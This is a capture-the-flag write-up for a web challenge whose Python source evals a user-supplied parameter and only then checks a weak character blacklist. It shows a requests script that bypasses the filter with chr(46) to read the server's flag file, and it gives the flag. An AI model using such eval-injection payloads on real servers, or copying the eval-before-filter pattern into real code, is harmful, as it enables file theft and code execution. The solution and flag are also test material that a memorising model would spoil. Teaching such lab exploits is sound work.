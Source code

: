 #  Old is new again

```
score: 299
solved: xx/85
difficulty: NA
tags: web, python, eval
```

## Problem

```
Grandpa, what is the first vulnerability you've ever found?

https://oldisnewagain.ctf.intigriti.io/
Flag format: flag{}
Created by ComdeyOverflow
```

## Got the flag
The page shows its source code

```py
import web
import sys
from io import StringIO

urls = (
  '/', 'index',
  '/old', 'old',
)
render = web.template.render('templates/')
app = web.application(urls, globals())

class index:
    def GET(self):
        source = f'\x3cpre\x3e\x3ccode\x3e{open(__file__).read()}\x3c/code\x3e\x3c/pre\x3e'
        return render.index(source, '')

class old:
    def GET(self):
        eval_output = ''
        stdout = sys.stdout
        sys.stdout = reportSIO = StringIO()
        blacklist = {".","'","__"}
        try:
            get_input = web.input()
            inject = get_input['inject'] if 'inject' in get_input else None
            if (inject):
                try:
                    x = eval(inject)
                    if (x):
                        eval_output = str(eval_output) + x
                except Exception as error:
                    print(error)
            for x in inject:
                if any(x in inject for x in blacklist):
                    return "caught you again 1337"
            reportStr = reportSIO.getvalue()
            sys.stdout = stdout
            output = str(reportStr) + str(eval_output)
            return render.index(f'\x3cpre\x3e\x3ccode\x3e{open(__file__).read()}\x3c/code\x3e\x3c/pre\x3e', output)
        except Exception as error:
            print(error)
            return error


if __name__ == "__main__":
    app.run()
```

The code accesses param `inject` and `eval` the code **THEN** filter the code
chars from a blacklist of 3 strings `. ' __` .

To by-pass the check, use `chr(46)` to get a `.`:

```py
import requests
r = requests.get('https://oldisnewagain.ctf.intigriti.io/old',
                 params={'inject':'str([c for c in open(f"/flag{chr(46)}txt")])'})
r.text
```

f-string format allows to format without using `.format` but `%` could do the job here, too. List-comprehension `[c for c in open]` to not use `.read()`

Output is the flag `flag{1dk_th1s_1s_old_or_not_but_cool_right?}`.

## Conclusion
The blacklist check here is intended to trick players go to wrong paths for the next challenge `New Is Old Again`.
